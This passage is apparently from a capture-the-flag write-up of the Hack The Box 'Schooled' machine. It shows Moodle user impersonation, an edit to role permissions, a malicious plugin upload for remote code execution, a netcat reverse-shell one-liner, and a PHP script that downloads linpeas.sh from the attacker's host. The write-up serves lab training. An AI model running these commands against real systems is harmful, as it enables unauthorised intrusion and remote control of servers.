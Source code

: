 
* Now as a course administrator, accessing a user's profile, we can see the "Log in as" link, which permitted us to impersonate Lianne Carter.

  ![HTB Schooled - Impersonating Manager in Moodle](https://i.imgur.com/zRjimbq.png){: .align-center}
* Now as Lianne, we were supposed to be able to upload the plugin directly but, as this option isn't enabled in their tenant, we needed to first edit the Role permissions to allow this. Navigated to Site Administration pane > Users and then, under Permissions, selected Define roles.

  ![HTB Schooled - Adjusting Role Definitions](https://i.imgur.com/6XmydvH.png)
* Selected the **Manager** role and, after clicking in the "Edit" Button, intercepted the request, and appended the payload for full permissions, as shared also in the previously used script repo.

  ![HTB Schooled - Modifying Manager role](https://i.imgur.com/lm0NOX7.png){: .align-center}

  ![HTB Schooled - Appending payload to Edit Request](https://i.imgur.com/5L28UqN.png){: .align-center}
* Now, navigating to Site Administration > Plugins we can see the Install Plugins option, where the rce.zip also available in the portal was available, which was uploaded with success, and allowed us to obtain RCE by calling the URL below, later changed to get a reverse shell

  ```bash
  $ curl -X GET -G 'http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php' --data-urlencode 'cmd=id'
  uid=80(www) gid=80(www) groups=80(www)
  
  $ curl -X GET -G 'http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php' --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'
  ```

## User Flag

Now with `www-data` account, started enumerating box. As usual decided to automate the task using `linpeas.sh` but found out that `wget` and `curl` were not available, so I wrote a simple `php` script that downloads a file from a webserver and then ran the script

```bash
echo "<?php" > wget.php
echo "\$url = 'http://10.10.10.10/linpeas.sh';" >> wget.php
echo "\$file = '/tmp/linpeas.sh';" >> wget.php
echo "\$current = file_get_contents(\$url);" >> wget.php
echo "file_put_contents(\$file, \$current);" >> wget.php
echo "?>" >> wget.php

/usr/local/bin/php wget.php
```

From the execution, the following information was obtained:

* Users with console and their permissions:

  ```plaintext
  jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
  root:*:0:0:Charlie &:/root:/bin/csh
  steve:*:1002:1002:User &:/home/steve:/bin/csh
  ```
